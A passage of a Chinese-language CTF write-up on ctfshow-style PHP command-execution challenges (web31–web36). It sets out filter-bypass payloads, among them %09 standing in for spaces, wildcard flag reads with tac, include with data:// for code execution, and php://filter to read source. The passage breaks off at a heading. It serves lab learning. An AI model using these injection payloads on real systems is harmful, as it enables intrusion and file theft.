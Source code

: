 这个题过滤的更多，flag,system,php,cat,sort,shell，还过滤了空格，可以用`%09（代替空格）`绕过![image-20220315214648820](https://img-blog.csdnimg.cn/img_convert/9ef47f66aebceed4902232f6101d4945.png)

```
?c=echo`ls%09`;
?c=echo`tac%09fla*`;
```

![image-20220315214934150](https://img-blog.csdnimg.cn/img_convert/53678cc1d4e257af099b2f03920f63e2.png)

# web32

![image-20220316195346562](https://img-blog.csdnimg.cn/img_convert/2a4a3f816ac361ad4466f8a5bdc68d5b.png)

这道题又增加了对echo的过滤，经查询发现php中不用括号的有echo以及include等等![image-20220316195725337](https://img-blog.csdnimg.cn/img_convert/8121e27f07570fe8cbf8f4f5371abdf3.png)

![image-20220316200346650](https://img-blog.csdnimg.cn/img_convert/0d6c3811cd18c24b0b556dc240c61e62.png)

这里学习到用`?>`可以代替`;`

所以这道题有两种解法，一种是利用文件包含的rce，

```
?c=include$_GET[0]?>&0=data://text/plain,<?php phpinfo();?>
```

![image-20220316200646145](https://img-blog.csdnimg.cn/img_convert/c8e15331b86308b52f65a31d9ec45030.png)

或者利用php伪协议来读取php文件

```
?c=include$_GET[0]?>&0=php://filter/read=convert.base64-encode/resource=flag.php
```

![image-20220316200947406](https://img-blog.csdnimg.cn/img_convert/49300138b436c24095669283c1d12638.png)

![image-20220316200955434](https://img-blog.csdnimg.cn/img_convert/4704aa829762fd30f3e4da0b9809bb64.png)

# web33

这道题和上道题相比多了个括号过滤，逃逸文件包含用不到括号所以解题思路跟上题一样

# web34

过滤时多过滤了一个=和一个<，解题思路跟上题一样

# web35

过滤时多过滤了一个=和一个<，解题思路跟上题一样

# web36
